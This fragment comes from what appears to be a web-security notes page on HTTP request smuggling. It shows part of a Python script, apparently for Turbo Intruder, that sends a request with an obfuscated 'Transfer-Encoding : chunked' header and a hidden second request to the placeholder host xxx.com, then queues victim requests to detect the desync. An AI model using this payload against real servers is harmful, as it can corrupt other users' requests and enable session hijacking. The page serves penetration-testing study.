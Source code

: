 ```python
Host: xxx.com
Content-Length: 4
Transfer-Encoding : chunked

46
POST /nothing HTTP/1.1
Host: xxx.com
Content-Length: 15

kk
0

'''
    engine.queue(attack)

    victim = '''GET / HTTP/1.1
Host: xxx.com

'''
    for i in range(14):
        engine.queue(victim)
        time.sleep(0.05)


def handleResponse(req, interesting):
    table.add(req)
```

## More info

![](../.gitbook/assets/eki5edauuaaipik.jpg)
